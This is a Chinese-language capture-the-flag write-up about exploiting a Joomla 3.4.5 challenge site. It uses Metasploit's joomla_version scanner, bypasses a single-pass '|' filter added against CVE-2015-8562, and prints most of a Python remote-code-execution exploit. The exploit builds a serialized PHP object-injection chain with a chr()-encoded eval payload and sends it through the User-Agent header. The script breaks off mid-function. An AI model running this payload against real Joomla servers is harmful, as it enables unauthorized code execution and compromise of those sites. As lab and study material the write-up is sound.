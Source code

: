 使用 msfconsole 中的 joomla_version 程序分析 joomla 版本

```
sudo msfconsole
search joomla
use auxiliary/scanner/http/joomla_version
set RHOSTS 0300ccc44c.joomla.r4u.top
set RPORT 6788
run
```

![image-20210225132817110](https://i.loli.net/2021/02/25/HJyXWxNvzDYomBU.png)

可以看出网站程序版本是 3.4.5

下载 Joomla 3.4.5 和题目提供的网站程序进行比较

![image-20210226055049296](https://i.loli.net/2021/02/26/qvabDQuhZ75mX3C.png)

![image-20210226055112892](https://i.loli.net/2021/02/26/UFW9hKNI8VbciE1.png)

可以看出这里有一个过滤”|“的操作，针对CVE-2015-8562做的防护

不过这个应该双写||就能绕过，毕竟只替换一次。

![image-20210226194731011](https://i.loli.net/2021/02/26/qRO4o6THvP7V1JU.png)

然后就是看看大佬们的脚本

然后面向 Ctrl-C+V 编程，加入自己需要的一些东西

（这里因为print一次打印的字符有限，在测试的时候直接将文本输出到了文件中查看，然后再修改程序）

程序：

```python
import requests
def conversor(data):
    # 将命令转换一下
    converted_cmd = ""
    for char in data:
        converted_cmd += "chr({0}).".format(ord(char))
    return converted_cmd[:-1]

def build_payload(rce_payload):
    rce_payload = "eval({0})".format(conversor(rce_payload))
    end = '\xf0\xfd\xfd\xfd' # 截断操作 仿照wordpress的xss
    payload = r'''}__test||O:21:"JDatabaseDriverMysqli":'''\
                r'''3:{s:2:"fc";O:17:"JSimplepieFactory":'''\
                r'''0:{}s:21:"\0\0\0disconnectHandlers";'''\
                r'''a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{'''\
                r'''s:8:"sanitize";O:20:"JDatabaseDriverMysql":'''\
                r'''0:{}s:8:"feed_url";'''
    payload_field = "{0};JFactory::getConfig();exit".format(rce_payload)
    payload += r'''s:{0}:"{1}"'''.format(str(len(payload_field)),
                                            payload_field)
    payload += r''';s:19:"cache_name_function";s:6:"assert";'''\
                r'''s:5:"cache";b:1;s:11:"cache_class";O:20:'''\
                r'''"JDatabaseDriverMysql":0:{}}i:1;s:4:'''\
                r'''"init";}}s:13:"\0\0\0connection";b:1;}''' + end
    return payload

def get_url(url, ua):
    headers={'User-Agent': ua}
    session = requests.session()
    r = session.get(url, headers=headers)
    for _ in range(3):
        r = session.get(url, headers=headers)
```